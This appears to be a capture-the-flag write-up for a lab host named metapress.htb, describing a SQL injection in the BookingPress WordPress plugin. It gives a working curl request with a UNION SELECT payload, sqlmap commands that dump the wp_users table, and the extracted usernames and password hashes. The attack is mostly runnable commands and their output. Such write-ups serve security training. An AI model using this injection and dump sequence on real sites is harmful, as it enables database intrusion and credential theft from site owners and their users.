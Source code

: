 Proof of Concept:
- Create new category, associate it with new service via BookingPress admin menu `/wp-admin/admin.php?page=bookingpress_services`
- We want to update 

We'll want to run this script:
```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<_wpnonce>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

We'll replace `_wpnonce` param with the value in our `_wpnonce` session, and we get: 
```
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```

So, now we've verified that the query itself works, we can update the SQL query to grab specific user/pass data

Here we can find information on the structure of WordPres databases: `https://wp-staging.com/docs/the-wordpress-database-structure/`

We see that the core wordpress tables are:
`wp_options`, `wp_users`, `wp_usermeta`, `wp_posts`, `wp_postmeta`, `wp_terms`, `wp_term_relationships`, `wp_term_taxonomy`, `wp_comments`, `wp_commentmeta`, `wp_links`

Since we are interested in the passwords associated with users, we'll want to grab fields from the `wp_users` table

So we'd likely want something like `SELECT * FROM wp_users` in the injection

---

Without lookups:
If we format the request as an HTTP POST and save it as a `.req` file, we can pass it into `sqlmap` in order to try to dump the sql database:
- `sqlmap -r admin.req -p total_service --batch`
- `sqlmap -r admin.req -p total_service --dbs`
    - Listing out all of the databases
        - we get `blog` and `information_schema`
- listing out the blog tables
    - `sqlmap -r admin.req -p total_service -D blog --tables`
- We get `wp_users`, which likely contains password hashes
    - Dumping the hashes: `sqlmap -r admin.req -p total_service -D blog -T wp_users --dump`



If we replace `@@version` and `@@version_comment` with `group_concat(user_login)` and `group_concat(user_pass)`, then we get:
```
[{"bookingpress_service_id":"admin,manager","bookingpress_category_id":"$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.,$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```
